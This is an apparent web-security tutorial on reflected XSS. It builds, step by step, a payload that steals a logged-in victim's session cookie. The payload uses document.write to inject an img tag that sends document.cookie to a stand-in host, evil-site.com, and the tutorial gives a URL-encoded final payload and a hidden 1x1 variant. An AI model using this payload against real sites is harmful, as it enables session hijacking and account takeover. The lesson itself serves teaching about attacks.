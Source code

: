 # Reflected XSS

We got introduced to **Reflected XSS** in the previous section, in short it is a type of vulnerability that gets reflected to you when triggered.

We discussed in previous example how we could send some URL string like,

`https://https://example-site.com/search?term=<script>alert("XSS")</script>`

and the user visiting the URL will be greeted with `XSS`.
Well, this isn't the thing that a malicious attacker would do, is it?

So, how can we convert the above code to something harmful?

>**Note:** The purpose of this lesson is to teach you how malicious actors think, and not how to become one.

Let's imagine you are logged in to that e-commerce site.
And say it uses cookie based authentication mechanism. Which means anyone who has your cookies can impersonate the server to think that the user is actually you.

Let us say we are *attacker* and the user who has no idea what we are going to do is *victim*.

As an attacker, our goal is to impersonate the server to think we are the *victim* user.But, we need ourself to authenticate using login credentials. Sad thing is, *we don't have it!*.

**Let's steal! ;)**

We need `document.cookie` it is a variable that stores cookies of every site you visit individually.

Now we know what we need to include in javascript.

```html
  <script>alert(document.cookie)</script>
```

Voila! We see our cookies in the alert box. You might think this is it. But, when a victim visits our new url,

`https://fake-ecommerce-121255.com/search?term=<script>alert(document.cookie)</script>`

the victim sees the cookie and wonder's th!

But, we don't actually have it do we? Now, to actually get the cookie we use a neat idea.

Let's say we have a evil website `https://evil-site.com`.
What we try to do is send a request to our evil site with cookies as the user parameter. How?


```html
<img src=1 onerror="alert(1)">
```

When we input it, we get `1` as an alert. Now, lets think how are we gonna send cookie to our evil site. What if we sent it using a HTTP Request! 

Like,

```html
<img src="https://evil-site.com/cookie?cookie=victim-cookie-here">
```

Looks like a  good idea, but how are we gonna attach `document.cookie` in `src` attribute. Thats not possible it doesn't support concatenation.

Let's think it clearly, we can use `script` tag though!

So lets use `script` tag to put `img` instead

```html
  <script>document.write("<img src='https://evil-site.com/cookie?cookie=" + document.cookie + " '>")</script>
```

Now, lets paste the above code in the URL query parameter. 

It doesn't work! Wth! What happened? Hmm, it's normal its some proble with how the browser URL works, you must **URL Encode** them before sending them.

`%3Cscript%3Edocument.write%28%22%3Cimg%20src%3D%27https%3A%2F%2Fevil-site.com%2Fcookie%3Fcookie%3D%22%20%2B%20document.cookie%20%2B%20%22%20%27%3E%22%29%3C%2Fscript%3E`

This is the final payload, now this will send the `document.cookie` to the evil site that we provided.

But in real life, wouldn't it be better if we could hide that weird image thumbnail?

Let's set width and height for the image.

```html
  <script>document.write("<img width='1' height='1' src='https://evil-site.com/cookie?cookie=" + document.cookie + " '>")</script>
```

Voila! No image at all! You can now play around with various tags and attributes and explore further.